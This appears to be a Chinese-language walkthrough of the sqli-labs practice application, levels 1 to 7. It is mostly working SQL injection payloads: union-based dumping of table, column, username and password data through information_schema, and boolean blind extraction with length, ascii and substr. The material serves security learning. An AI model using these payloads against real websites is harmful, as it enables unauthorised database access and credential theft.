# Less-1
## 判断sql注入
Please input the ID as parameter with numeric value

判断是否存在sql注入，`?id=1`
返回的是


判断sql语句是否拼接，是字符型or数字型，
`?id=1'`
`?id=1'--++`



是字符型，且增加--+这个注释后，再次正常显示
```SQL
SELECT * FROM users WHERE id='1'' LIMIT 0,1;
                             └─┘└── 这一整段变成了多余且无法解析的错误语法，LIMIT从索引0开始，数1条
                            闭合了
```

## 联合注入
**第一步：**判断表格有几列，`?id=1'order by 3 --+`
`order by X`是让结果按照第X列来排序，判断出来有3列（不知道后端挑选的哪个表，不过反正是三列）



**第二步：爆出显示位**（找出网页上能显示数据的位置），`?id=-1'union select 1,2,3--+`
id=-1，让第一句查不出结果，如果第一句查出正常用户Dumb，页面会被Dumb占满，注入的1,2,3就显示不出来
图中，显示位是第2列、第3列


**第三步：获取数据名、版本号**，`?id=-1' union select 1,database(),version()--+``
`union`将查询结果，拼接成一张表输出
`database()`是当前运行的数据库名字


**第四步：爆表**，`?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+`
`SELECT`列的名字，`FROM` 存放所有列名的表的名字，`WHERE` 过滤条件
保留数字1、2为了占位，然后把第3列替换成了要查的数据：`group_concat(table_name)`
`group_concat(table_name)`把查询到的多行表名压缩、连接成一串字符串，用逗号隔开
`information_schema`记录当前Mysql实例中所有数据库、表、列的名字
`.table`记录表的信息
`where table_schema='security'`只看`security`这个数据库下的表名


这里要搞清楚**数据库**、**表**、**列**的关系：`security`数据库中包含4张表：`emails`、`referers`、`uagents`、`users`


**第五步：爆字段名**，`?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`
其中，和上一步爆表不同，爆表中的`table_schema='security'`的是查看security数据库的表格，而`table_name='users'`是查看users表格中的列

**第六步：获取users表格中的列**
`?id=-1'union select 1,2,group_concat(username,id,password) from users--+`

# Less-2
数字型
```bash
?id=1'
?id=1'--+
?id=1--+
```




```bash
?id=1 order by 3
?id=1 order by 4
?id=-1 union select 1,2,3
?id=-1 union select 1,database(),version()
?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = 'security'
?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users'
?id=-1 union select 1,2,group_concat(username,id,password) from users
```

# Less-3

`?id=1'`后弹出提示内容`use near ''1'') LIMIT 0,1' at line 1`，提示`'1'') LIMIT 0,1`不符合语法
php文件是`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

```bash
?id=1')--+
?id=1')order by 3--+
?id=-1')union select 1,2,3--+
?id=-1')union select 1,database(),version()--+
?id=-1')union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1')union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1')union select 1,2,group_concat(username,id,password) from users--+
```

# Less-4

```php
# ?id=1"提示：near '"1"") LIMIT 0,1' at line 1

$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";

# 假设$id=5，处理后$id="5"
# id=("5")
```

```bash
?id=1")--+
?id=1")order by 3--+
?id=-1")union select 1,2,3--+
?id=-1")union select 1,database(),version()--+
?id=-1")union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
?id=-1")union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
?id=-1")union select 1,2,group_concat(username,id,password) from users--+
```

# Less-5

```
# ?id=1'，提示： near ''1'' LIMIT 0,1' at line 1
# 但是输入?id=1或者?id=1'--+，提示：You are in...........
# 这里联合注入没用，因为联合注入需要页面有回显位，因此选择布尔盲注
# 布尔盲注用到length(),ascii(),substr()三个函数

# 注：当输入?id=1'--时，后端接收到的SQL语句变成SELECT * FROM users WHERE id='1'--' LIMIT 0,1，这时候后端分析' LIMIT 0,1，发现不符合语法，而使用?id=1'--+时候，经过URL编码变成，SELECT * FROM users WHERE id='1'-- ' LIMIT 0,1，--的后面有空格，mysql将后面视为注释
```

```bash
# ---------------------数据库名---------------------
# 判断数据库名长度：security
?id=1'and length(database())>8--+

# 不推荐，因为内置函数database()就搞定了不用额外写select
?id=1'and length((select database()))>8--+

# 判断库名
# substr("7961",1,1)=7 substr(a,b,c) a是要截取的字符串，b是截的位置，c是截的长度
# 布尔盲注截的长度为1，因为要一个个判断字符。
# ascii()将截取的字符转换成对应的ascii码，好确定数字，根据数字找到对应的字符。
# ascii码：115、101、99、117、114、105、116、121
?id=1'and ascii(substr(database(),1,1))>100--+
?id=1'and ascii(substr(database(),1,1))<110--+
?id=1'and ascii(substr(database(),1,1))<120--+
?id=1'and ascii(substr(database(),1,1))>110--+
?id=1'and ascii(substr(database(),1,1))=115--+
?id=1'and ascii(substr(database(),2,1))=101--+
?id=1'and ascii(substr(database(),3,1))=99--+
?id=1'and ascii(substr(database(),4,1))=117--+
?id=1'and ascii(substr(database(),5,1))=114--+
?id=1'and ascii(substr(database(),6,1))=105--+
?id=1'and ascii(substr(database(),7,1))=116--+
?id=1'and ascii(substr(database(),8,1))=121--+

# ---------------------表名---------------------
# 判断第一个表名字符长度：emails、referers、uagents、users
# limit 0,1 跳过0行，取1行
# limit 1,1 跳过1行，取1行
?id=1'and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>5--+

# 判断第一个表名第一个字符
# 思路是：第一个表的第一个字符ascii码是否大于100，先substr(字符串,1,1)截取第一个表的字符串的第一个字符，第一个表是select table_name from information_schema.tables where table_shcema=database() limit 0,1
?id=1'and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100--+
# 判断第一个表名第二个字符
?id=1'and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>100--+
...

# 判断第二个表名第一个字符长度
?id=1'and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))>5--+
# 判断第二个表名第一个字符
?id=1'and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>100--+
...

# ---------------------列名---------------------
# 判断users表中的第一个列名长度
?id=1'and length((select column_name from information_schema.columns where table_name="users" limit 0,1))>1--+
# 判断users表中的第一个列名第一个字符
?id=1'and ascii(substr((select column_name from information_schema.columns where table_name="users" limit 0,1),1,1))>100--+
...

# ---------------------字段值---------------------
# 判断username列中的第一个字段值长度
?id=1'and length((select username from users limit 0,1))>3--+
# 判断username列中的第一个字段值的第一个字符
?id=1'and ascii(substr((select username from users limit 0,1),1,1))>100--+
```

# Less-6
```BASH
?id=1"
?id=1"--+
?id=1"and length(database())>7--+
?id=1"and ascii(substr(database(),1,1))>100--+
?id=1"and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>6--+
?id=1"and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100--+
?id=1"and length((select username from users limit 0,1))>8--+
?id=1"and ascii(substr((select username from users limit 0,1),1,1))>100--+
```

# Less-7
```bash
?id=1
?id=1'
?id=1'--+
?id=1')--+
?id=1'))--+
?id=1'))and length(database())>7--+
?id=1'))and ascii(substr(database(),1,1))>100--+
?id=1'))and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>100--+
?id=1'))and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100--+
?id=1'))and length((select username from users limit 0,1))>8--+
?id=1'))and ascii(substr((select username from users limit 0,1),1,1))>100--+
```
